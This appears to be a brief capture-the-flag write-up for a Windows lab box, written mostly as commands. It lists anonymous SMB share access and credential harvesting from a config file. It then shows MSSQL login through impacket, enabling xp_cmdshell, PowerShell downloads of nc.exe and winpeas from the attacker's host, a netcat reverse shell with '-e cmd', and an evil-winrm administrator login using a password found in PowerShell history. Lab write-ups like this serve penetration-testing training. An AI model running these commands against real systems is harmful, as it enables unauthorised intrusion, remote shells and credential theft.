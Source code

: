 this box had multiple file shares:

first we could anonymously login on 1 the samba server:

and we had a access to the backup
smbclient -L={boxip}
smbclient -L={boxip}/backups

we could find a user and password in the `prod.dtsConfig` file

with these we could login to the mssql database
using impacket-mssqlclient

`impacket-mssqlclient {workgroup}/{user}:{password}@{boxip} -windows-auth`

using this impacket mssqlclient we get a shell
but we cant run commands like `whoami` or `ipconfig,
thus we need ot enable this:

`EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE
xp_cmdshell "ping {hack_box_ip}"`

although this allows us to run commands, this is not amazing, thus we need to get a more persistent shell:
first we setup 2 listeners on our hack_box:
`python3 -m http.server`
`nc -lvnp 9001`

then we download nc.exe and winpeas.exe to the box:
`impacket-mssqlclient {workgroup}/{user}:{password}@{boxip} -windows-auth
xp_cmdshell "powershell.exe wget {hack_box_ip}:8000/tools/nc.exe -OutFile c:\\Users\Public\\nc.exe"
xp_cmdshell "powershell.exe wget {hack_box_ip}:8000/tools/winpeas.exe -OutFile c:\\Users\Public\\winpeas.exe"
xp_cmdshell "c:\\Users\Public\\nc.exe {hack_box_ip} 9001 -e cmd"`

in the reverse shell:
we can use winpeas, 
wich findes the file ConsoleHost_history.txt contains the password for the administrator login

using evil-winrm we can login to the box:
`evil-winrm -u {user} -p '{pass}' -i {boxip}`